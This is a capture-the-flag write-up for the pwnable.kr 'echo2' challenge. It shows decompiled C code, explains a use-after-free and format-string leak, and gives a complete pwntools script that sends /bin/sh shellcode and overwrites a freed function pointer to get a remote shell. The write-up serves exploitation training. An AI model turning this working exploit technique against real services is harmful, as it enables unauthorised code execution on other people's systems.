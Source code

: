 # echo1

## Description

echo2 - 50 pt

> Pwn this echo service. <br><br>
> download : http://pwnable.kr/bin/echo2 <br><br>
> Running at : nc pwnable.kr 9011


## Solution

### Understanding the binary

Just like in `echo1`, again we are given a 64 bit ELF executable, with no security features enabled.

Let's take a look at the decompiled code in IDA:

**main:**
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  _QWORD *v3; // rax
  unsigned int i; // [rsp+Ch] [rbp-24h] BYREF
  _QWORD v6[4]; // [rsp+10h] [rbp-20h] BYREF

  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 1, 0LL);
  o = malloc(0x28uLL);
  *((_QWORD *)o + 3) = greetings;
  *((_QWORD *)o + 4) = byebye;
  printf("hey, what's your name? : ");
  __isoc99_scanf("%24s", v6);
  v3 = o;
  *(_QWORD *)o = v6[0];
  v3[1] = v6[1];
  v3[2] = v6[2];
  id = v6[0];
  getchar();
  func[0] = (__int64)echo1;
  qword_602088 = (__int64)echo2;
  qword_602090 = (__int64)echo3;
  for ( i = 0; i != 121; i = getchar() )
  {
    while ( 1 )
    {
      while ( 1 )
      {
        puts("\n- select echo type -");
        puts("- 1. : BOF echo");
        puts("- 2. : FSB echo");
        puts("- 3. : UAF echo");
        puts("- 4. : exit");
        printf("> ");
        __isoc99_scanf("%d", &i);
        getchar();
        if ( i > 3 )
          break;
        ((void (*)(void))func[i - 1])();
      }
      if ( i == 4 )
        break;
      puts("invalid menu");
    }
    cleanup();
    printf("Are you sure you want to exit? (y/n)");
  }
  puts("bye");
  return 0;
}
```

**echo1:**
```c
int echo1()
{
  return puts("not supported");
}
```

**echo2:**
```c
__int64 echo2()
{
  char format[32]; // [rsp+0h] [rbp-20h] BYREF

  (*((void (__fastcall **)(void *))o + 3))(o);
  get_input(format, 32LL);
  printf(format);
  (*((void (__fastcall **)(void *))o + 4))(o);
  return 0LL;
}
```

**echo3:**
```c
__int64 echo3()
{
  char *s; // [rsp+8h] [rbp-8h]

  (*((void (__fastcall **)(void *))o + 3))(o);
  s = (char *)malloc(0x20uLL);
  get_input(s, 32LL);
  puts(s);
  free(s);
  (*((void (__fastcall **)(void *))o + 4))(o);
  return 0LL;
}
```

**cleanup:**
```c
void cleanup()
{
  free(o);
}
```

Again, byebye and greetings are simply printing strings, and get_input is a wrapper for fgets. Basically, this program is almost the same as `echo1`, but this time the first echo function is not supported and the other two are.

### Exploit

When the `4`th option is pressed - for exiting the program - the `cleanup` function is called, which frees the memory allocated for the `o` object. However, if we choose then press `n` (for not sure) then we get a use after free vulnerability, because the `o` object is used in `echo2` to call the `greetings` function. 

So, if we can somehow allocate memory using `malloc`, with an appropriate size, and then write there - we'll be able to overwrite the `greetings` function pointer, and call it to get a shell.

There are two main challenges:

 * We need to save shellcode that calls `/bin/sh` somewhere in the memory - and leak that addres

 * We need to perform the malloc and overwrite the `greetings` function pointer.

The second challenge is pretty easy, because we can simply use the `UAF echo` option to allocate memory and write there.

For the first challenge - we can simply place the shellcode at beggining of the program, when we are asked for our name - and then leak the address using `FSB echo`.

### Exploit code

```python
from pwn import *

elf = context.binary = ELF('./echo2')
conn = remote('pwnable.kr', 9011)

# ---------- give shellcode as name ---------- #

payload = b'\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e' + \
          b'\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05'
conn.sendline(payload)

# ---------- leak address of name ---------- #

payload = b'2\n' # 'FSB echo'
payload += b'%10$p' # leak address
conn.sendline(payload)

name_addr = int(conn.recvline_startswith(b'0x').strip(), 16) - 0x20 # add offset to leak

# ---------- use after free ---------- #

payload = b'4\n' # 'exit'
payload += b'n\n' # 'no'
payload += b'3\n' # 'UAF echo'
payload += b'A' * 8 * 3 # padding
payload += p64(name_addr) # overwrite 'greetings'
conn.sendline(payload)

# ---------- get shell ---------- #

conn.send(b'2\n')
conn.interactive()
```

```
fun_with_UAF_and_FSB :)
```